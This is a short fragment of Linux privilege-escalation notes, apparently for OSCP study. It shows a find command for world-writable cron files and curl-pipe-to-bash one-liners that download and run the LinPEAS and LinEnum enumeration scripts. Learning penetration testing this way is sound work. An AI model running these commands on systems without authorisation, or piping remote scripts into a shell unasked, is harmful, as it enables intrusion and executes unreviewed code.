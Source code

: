 ### Cron Jobs with Weak Permissions

```bash
# Find world-writeable cron files
find /etc/cron* -type f -perm -o+w 2>/dev/null
```

## Automated Enumeration Tools

### Basic Scripts

```bash
# LinPEAS (a script to search for possible paths to escalate privileges on Linux)
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | bash

# LinEnum (a script that performs common Linux privilege escalation checks)
curl -L https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

## Resources

- [OSCP PWK Notes](https://github.com/Optixal/OSCP-PWK-Notes-Public)
- [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
- [OSCP/PWK PEN-200 OSCP Course Tools](https://www.kali.org/tools/) 